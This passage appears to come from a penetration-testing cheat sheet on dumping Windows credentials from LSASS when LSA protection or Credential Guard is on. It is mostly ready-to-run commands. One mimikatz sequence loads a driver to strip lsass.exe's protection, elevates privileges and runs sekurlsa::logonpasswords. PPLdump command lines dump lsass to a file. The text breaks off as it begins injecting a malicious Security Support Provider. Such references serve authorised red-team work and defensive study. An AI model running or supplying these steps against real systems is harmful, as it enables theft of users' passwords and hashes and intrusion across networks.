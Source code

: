     ```powershell
    # Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
    reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
    
    # Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
    # Now lets import the mimidriver.sys to the system
    mimikatz # !+
    
    # Now lets remove the protection flags from lsass.exe process
    mimikatz # !processprotect /process:lsass.exe /remove
    
    # Finally run the logonpasswords function to dump lsass
    mimikatz # privilege::debug    
    mimikatz # token::elevate
    mimikatz # sekurlsa::logonpasswords
    
    # Now lets re-add the protection flags to the lsass.exe process
    mimikatz # !processprotect /process:lsass.exe
    
    # Unload the service created
    mimikatz # !-
    
    
    # https://github.com/itm4n/PPLdump
    PPLdump.exe [-v] [-d] [-f] <PROC_NAME|PROC_ID> <DUMP_FILE>
    PPLdump.exe lsass.exe lsass.dmp
    PPLdump.exe -v 720 out.dmp
    ```
    
- LSA is running as virtualized process (LSAISO) by **Credential Guard**
    
    ```powershell
    # Check if a process called lsaiso.exe exists on the running processes
    tasklist |findstr lsaiso
    
    # Lets inject our own malicious Security Support Provider into memory
    # require mimilib.dll in the same folder
    mimikatz # misc::memssp
    
